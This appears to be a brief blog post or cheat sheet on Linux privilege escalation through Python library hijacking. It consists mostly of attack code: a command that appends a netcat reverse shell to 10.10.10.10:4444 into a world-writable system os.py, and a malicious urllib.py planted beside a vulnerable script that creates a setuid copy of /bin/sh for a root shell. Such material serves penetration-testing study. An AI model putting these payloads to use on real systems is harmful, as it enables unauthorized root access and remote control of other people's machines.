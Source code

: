 ```yaml
---
layout: post
title:  "privesc - linux - python lib hijacking"
date:   2022-01-01
categories: linux
---
```



## If library is writable

### LinuxPrivChecker - World Writabel Files


```bash

[+] World Writable Files
-rwxrwxrwx 1 root root 25911 Mar  7 15:48 /usr/lib/python2.7/os.py

```

### Injection Malicious Code

```bash

echo "import subprocess;subprocess.call(['nc', '-e','/bin/sh','10.10.10.10','4444'], shell=False)" >> /usr/lib/python2.7/os.py

```

## If library is not writable

### In the same Directory of the vulnerable script


```bash

the script imports : import urllib

the malicious urllib.py contents in the same directory of the vulnerable script :

import os
os.system("cp /bin/sh /tmp/sh;chmod u+s /tmp/sh") 

/tmp/sh -p
```